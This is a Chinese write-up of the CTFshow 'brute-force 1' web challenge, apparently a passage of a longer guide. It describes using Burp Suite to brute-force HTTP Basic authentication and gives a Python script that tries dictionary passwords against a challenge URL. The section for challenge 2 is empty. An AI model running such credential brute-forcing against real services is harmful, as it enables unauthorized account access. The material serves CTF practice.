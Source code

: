 ## CTFshow web入门——爆破

[TOC]

### 爆破-1

#### 方法一

给了一个密码fuzz，使用bp抓包，发送爆破

- Payload类型：自定义迭代器

1. 在模块one中添加`admin`

2. 在模块two中添加`:`

3. 在模块Three中添加----fuzz文件

payload处理----添加`Base64-encode`

同时取消-----url编码

- 常规模式 

1. 添加前缀`admin:`
2. 编码`base64-encode`

#### 方法二---使用python脚本

```python
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-11-20 19:16:49
# @Last Modified by:   h1xa
# @Last Modified time: 2020-11-20 20:28:42
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

import time
import requests
import base64

url = 'http://41a801fe-a420-47bc-8593-65c3f26b7efa.chall.ctf.show/index.php'
# URL换成实际的靶场网址

password = []

# 使用字典
with open("1.txt", "r") as f:  
	while True:
	    data = f.readline() 
	    if data:
	    	password.append(data)
	    else:
	      break
	    


for p in password:
	strs = 'admin:'+ p[:-1]
	header={
		'Authorization':'Basic {}'.format(base64.b64encode(strs.encode('utf-8')).decode('utf-8'))
	}
	rep =requests.get(url,headers=header)
	time.sleep(0.2)
	if rep.status_code ==200:
		print(rep.text)
		break
```



### 爆破-2



